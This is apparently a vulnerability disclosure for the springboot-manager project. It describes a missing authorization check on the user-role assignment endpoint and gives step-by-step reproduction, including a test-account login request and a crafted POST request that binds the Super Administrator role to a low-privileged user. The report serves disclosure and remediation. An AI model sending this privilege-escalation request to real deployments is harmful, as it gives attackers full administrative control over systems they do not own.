







## Vulnerability Description

springboot-manager (master branch) contains a vertical privilege escalation vulnerability in the "System – User Management → User-Role Assignment" feature. The`UserRoleController#operationUserRole` method (`POST /sys/user/role` ) is not protected by any permission-check annotation (such as`@SaCheckPermission("sys:user:role:update")` ), so it can be invoked by any authenticated user. The`UserRoleServiceImpl#addUserRoleInfo` method it calls writes the`userId` and`roleIds` supplied in the request body directly to the database, without verifying whether`userId` is the currently logged-in user, and without any whitelist restriction on which roles may be assigned. Although the frontend only exposes this entry point in the administrator interface, an attacker can manually craft an HTTP request to bind`roleId=1` (Super Administrator) to their own account or to any other user, thereby escalating from a low-privileged account (e.g.`test` ) to Super Administrator; the same request can also arbitrarily modify other users' roles, constituting a horizontal privilege escalation. In addition, the endpoint applies no field whitelist to the request body, resulting in a mass assignment risk that allows arbitrary high-privileged`roleId` values to be submitted. Because Sa-Token queries permissions from the database in real time without caching, the role takes effect immediately after being written and the next request obtains all 55 permissions without re-login. This vulnerability results in a complete failure of the system's access control.

Gitee：https://gitee.com/zwens/springboot-manager

GitHub：https://github.com/aitangbao/springboot-manager

## Vulnerability Analysis

com.company.project.controller.UserRoleController#operationUserRole



com.company.project.service.impl.UserRoleServiceImpl#addUserRoleInfo



Call Chain

```
[Request 1] POST /sys/user/role
UserRoleController#operationUserRole          // no @SaCheckPermission
└─ UserRoleServiceImpl#addUserRoleInfo
   ├─ SysUserRoleMapper#delete(userId)        // line 49
   └─ ServiceImpl#saveBatch                   // line 51
      └─ SysUserRoleMapper#insert → sys_user_role(userId, roleId=1)
```

## Vulnerability Reproduction

**1. Log in with a low-privileged account**

Access the springboot-manager login page at`http://localhost:8080/manager/` , enter the low-privileged account`test` with password`123456` , and click "Log in". The login succeeds and the backend is entered. The credential obtained for this account is`satoken: 2a11ce13-7aac-435f-91ee-89667aa591a8` .




Login request packet

```
POST /manager/sys/user/login HTTP/1.1
Host: localhost:8080
Content-Length: 54
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/manager/index/login
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=CCD30B4D76C7E63755769E2A3156C87E; JSESSIONID=AA4726828E91576B349D792C22D26E1F
Connection: keep-alive

{"username":"test","password":"123456","captcha":"11"}
```

**2. Locate the Function and Inspect the Request**

Because the frontend does not expose the "Assign Role" entry to low-privileged accounts, we use Burp Suite to intercept or manually craft a request to the target endpoint.

The request that assigns roles to a user is`POST /sys/user/role` , and its JSON body contains sensitive fields such as`userId` and`roleIds` , for example:{"userId":"2124404956009332738","roleIds":["1"]}

`userId` can be set to any user (the currently logged-in low-privileged account or another user), and`roleIds` can be set directly to`["1"]` (the Super Administrator role). The endpoint performs no permission check and no ownership check; the server writes the values directly into the`sys_user_role` table, completing the role binding.

**3. Craft the Payload and Verify the Vulnerability**

Using the`satoken: 2a11ce13-7aac-435f-91ee-89667aa591a8` obtained from the low-privileged account`test` , manually craft a`POST /sys/user/role` request, set`userId` to the current low-privileged account`2124404956009332738` and`roleIds` to`["1"]` (the Super Administrator role). After sending the request, the server returns:{"code":0,"data":"","msg":"操作成功"}



```
POST /manager/sys/user/role HTTP/1.1
Host: localhost:8080
Content-Type: application/json
satoken: 2a11ce13-7aac-435f-91ee-89667aa591a8
Content-Length: 48

{"userId":"2124404956009332738","roleIds":["1"]}
```

Before sending the privilege escalation request, use the same`satoken` obtained from the low-privileged account`test` to call`GET /sys/permissions` . This endpoint corresponds to`PermissionController#getAllMenusPermission` and requires the`sys:permission:list` permission. Since the`test` account has not been assigned any role, the server returns:{"code":500001,"data":"","msg":"系统繁忙，请稍候再试"}



Afterwards, use the same`satoken` to call`GET /sys/permissions` again. The response changes from the pre-escalation`{"code":500001,"msg":"系统繁忙，请稍候再试"}` to`{"code":0,"msg":"操作成功"}` and returns all 55 permissions, proving that the low-privileged account has been successfully escalated to Super Administrator.


